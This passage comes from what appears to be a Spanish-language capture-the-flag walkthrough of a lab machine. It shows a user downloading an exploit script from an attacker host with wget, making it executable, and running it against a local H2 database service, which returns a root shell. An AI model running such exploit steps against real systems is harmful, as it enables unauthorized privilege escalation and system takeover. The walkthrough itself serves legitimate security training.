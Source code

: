 - Lo descargamos.

```bash
daniel@hawk:/tmp$ wget http://10.10.14.63/45506.py
--2024-07-03 01:08:30--  http://10.10.14.63/45506.py
Connecting to 10.10.14.63:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3756 (3.7K) [text/x-python]
Saving to: ‘45506.py’

45506.py                         100%[==========================================================>]   3.67K  --.-KB/s    in 0.003s

2024-07-03 01:08:30 (1.14 MB/s) - ‘45506.py’ saved [3756/3756]

daniel@hawk:/tmp$ chmod 777 45506.py
```

- Ejecutamos.

```bash
daniel@hawk:/tmp$ python3 45506.py --host 127.0.0.1:8082
[*] Attempting to create database
[+] Created database and logged in
[*] Sending stage 1
[+] Shell succeeded - ^c or quit to exit
h2-shell$ whoami
root

h2-shell$
```
